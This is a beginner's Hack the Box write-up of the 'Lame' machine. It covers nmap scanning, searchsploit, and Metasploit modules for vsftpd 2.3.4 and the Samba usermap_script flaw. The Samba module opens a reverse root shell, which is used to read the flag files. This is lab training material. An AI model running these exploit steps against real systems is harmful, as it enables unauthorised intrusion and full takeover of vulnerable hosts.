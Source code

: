 ```yaml
---
title: "Walkthrough of Lame Machine – Hack the Box"
description: ""
date: 2020-08-23T23:56:20-07:00
lastmod: 2020-08-23T23:56:20-07:00
cover: ""
coverAlt: ""
toc: false
tags: [ "HacktheBox",
    	"Walkthrough",
]
draft: false
---
```

<style>
	main {
    margin: 90px auto;
    padding: 0 15px;
    max-width: 70%;
	}
</style>

1. In a new terminal window, run `nmap -sV -O -F --version-light 10.10.10.3`
![Image](https://user-images.githubusercontent.com/44144070/89726880-9b4c8980-d9d4-11ea-9c66-4269c021413f.png)
<br><div style="padding-left: 2em;">[ ] Another option is to open **Zenmap** and run a port scan on the same IP (to see just the information on the ports, you can go to the **Ports/Hosts** tab)
<br><div style="padding-left: 2em;">[ ] **Zenmap** is a program that does a really good job at visualizing and breaking down `nmap` commands into digestible bites</div>
    ![Image](https://user-images.githubusercontent.com/44144070/89726888-b7502b00-d9d4-11ea-9a64-1e5bd559f122.png)
    ![Image](https://user-images.githubusercontent.com/44144070/89726889-b8815800-d9d4-11ea-8bab-4a7be888eae5.png)
    </div>
2. Now there a a LOT of different ways to use `nmap`, and being that I'm still learning you are going to be seeing a lot of different versions, but I will do my best to explain what each version does. The two versions used here I got from other tutorials and show different levels of detail when port scanning.
<br><div style="padding-left: 2em;">[ ] The first version we used was `nmap -sV -O -F --version-light 10.10.10.3`
<br><div style="padding-left: 2em;">[ ] `-sV`: Probes open ports to determine service/version info
<br>[ ]`-O`: Enable OS detection
<br>[ ]`-F`: Fast mode, scans fewer ports than the default scan
<br>[ ]`--version-light`: Limit to most likely probes </div>
<br>[ ]The second version used (as seen in the **Zenmap** <br><div style="padding-left: 2em;">[ ] `-A`: Enable OS detection, version detection, script scanning, and traceroute
<br>[ ]`-v`: Increase verbosity level (how detailed the process and results are)</div> </div>
2.	You’ll find that there are 4 available ports with different services running on them (21, 22, 139, 445)
3.	Port 21 shows **vsftpd 2.3.4**, let’s check if there are any known vulnerabilities
4.	Run command `searchsploit vsftpd 2.3.4`
<br><div style="padding-left: 2em;">[ ] What this does is search for any [Common Vulnerability and Exploits (CVE)](https://cve.mitre.org/about/index.html) and returns the name and location of the exploit in Kali
    ![Image](https://user-images.githubusercontent.com/44144070/89726895-be773900-d9d4-11ea-8b21-a2ea0eb85645.png)
5.	You'll see that there is one vulnerability, a *"Backdoor Command Execution"*
6.	We can try and use this vulnerability with **Metasploit**
<br><div style="padding-left: 2em;">[ ] **Metasploit** is a very nifty software that has a bunch of CVE exploits saved that can be run automatically
7.	Open **Metasploit** and use the command `search vsftpd 2.3.4`
    ![Image](https://user-images.githubusercontent.com/44144070/89726896-bfa86600-d9d4-11ea-9c96-eed449fe639d.png)
8.	You'll see 4 different options, and the fourth one will be our *"Backdoor Command Execution"* exploit
9.	Copy the address and run `use exploit/unix/ftp/vsftpd_234_backdoor`
10.	Type `show options` and we'll see that we need to set **RHOSTS** to the desired IP
    ![Image](https://user-images.githubusercontent.com/44144070/89726897-c040fc80-d9d4-11ea-8180-bbc1cf91524f.png)
11.	Do `set rhost 10.10.10.3`
12.	If we do `show options` again, then we'll see its set and can type `run`
<br><div style="padding-left: 2em;">[ ] What this does is tell **Metalsploit** where to direct the exploit
    ![Image](https://user-images.githubusercontent.com/44144070/89726898-c0d99300-d9d4-11ea-85af-1a4a549e7948.png)
13.	After a little bit, we'll get a message saying, *“Exploit completed, but no session was created”*,    meaning that the exploit was attempted but didn’t' work (if we do some [research](https://www.exploit-db.com/exploits/17491), it turns out that this exploit had since been fixed which is why our attempt failed)
    ![Image](https://user-images.githubusercontent.com/44144070/89726899-c1722980-d9d4-11ea-95b4-e9fb64ffb433.png)
14.	Let's continue to check the other option on port 139, **Samba**
15.	Run `search Samba 3.0.20` (which we know from our port scan) and we see two results.
    ![Image](https://user-images.githubusercontent.com/44144070/89726900-c20ac000-d9d4-11ea-9099-911a217b2ce9.png)
16.	We're going to want to focus on the first result, *"'Username map script' Command Execution"*
17.	We search that vulnerability in **Metasploit** with `searchsploit Samba 3.0.20`
    ![Image](https://user-images.githubusercontent.com/44144070/89726901-c20ac000-d9d4-11ea-85e7-e2c36f8375e4.png)
18.	We got a lot more options this time, but if we scroll through we see that option 15 is our *"username map script" Command Execution* vulnerability and copy the address and run `use exploit/multi/samba/usermap_script`
19.	Again we look at the settings and change the **RHOSTS** to our IP with show options and `set rhost 10.10.10.3` and then we're good to `run`
    ![Image](https://user-images.githubusercontent.com/44144070/89726902-c2a35680-d9d4-11ea-9203-f5b35506d1b9.png)
20.	Chances are (unless you set it up before), you'll get the same message from when we ran the **vsftpd 2.3.4 exploit** *“Exploit completed, but no session was created”*, but if you run `show options` again, you'll see a new section
    ![Image](https://user-images.githubusercontent.com/44144070/89726903-c2a35680-d9d4-11ea-90b9-85e20e6f1227.png)
21.	Now we have an **LHOST** and **LPORT** section, but the natural **LHOST** is not what we want because HTB gives us our own local IP for when we are on its VPN. You can find yours in the **Access** settings on the HTB website
    ![Image](https://user-images.githubusercontent.com/44144070/89726904-c33bed00-d9d4-11ea-9645-090c1b55201a.png)
22.	Run `set lhost yourHtbIp` and then try `run` again
23.	You should see some new messages and after a few seconds one that says, *“Command shell session 1 opened”*, and we're in!
    ![Image](https://user-images.githubusercontent.com/44144070/89726905-c33bed00-d9d4-11ea-8fbf-1b58f3e2a092.png)
24.	Now that we have a shell, we can check what kind of privileges we have with `whoami`
    ![Image](https://user-images.githubusercontent.com/44144070/89726906-c3d48380-d9d4-11ea-90be-560bf8e6e84f.png)
25.	Turns out we are already in as the root user! Now all we need to do is find the password hashes under user.txt and root.txt
26.	From here we have the option of either digging around in all the files and directories for what we want, or we can use this command `find / -type f -name “nameOfFile”` where nameOfFile will be replaced with user.txt and root.txt
<br><div style="padding-left: 2em;">[ ] This command will return the file address of whatever file you put in place of *"nameOfFile"*. We know what to search for because HTB machines often store the user and root hashes in files named user.txt and root.txt
    ![Image](https://user-images.githubusercontent.com/44144070/89726907-c3d48380-d9d4-11ea-9444-af9a860827a4.png)
27.	Once we find the locations of the two files, we can just run `cat fileAddress` where fileAddress is what we got with the find command
28.	Take those hashes and submit them on your HTB account and get the points!

## Resources
- [Official Lame Writeup from Hack the Box](https://www.hackthebox.eu/home/machines/writeup/1)
- [Tutorial from freecodecamp.org](https://www.freecodecamp.org/news/keep-calm-and-hack-the-box-lame/)
- [`nmap` Command Help](https://nmap.org/book/man-briefoptions.html)

###### <font size="1">075 108 097 108 106 097 112 099 108 032 083 112 108 098 097 108 117 104 117 097 032 068 112 115 115 112 104 116 032 090 118 116 108 121 122 108 097</font>
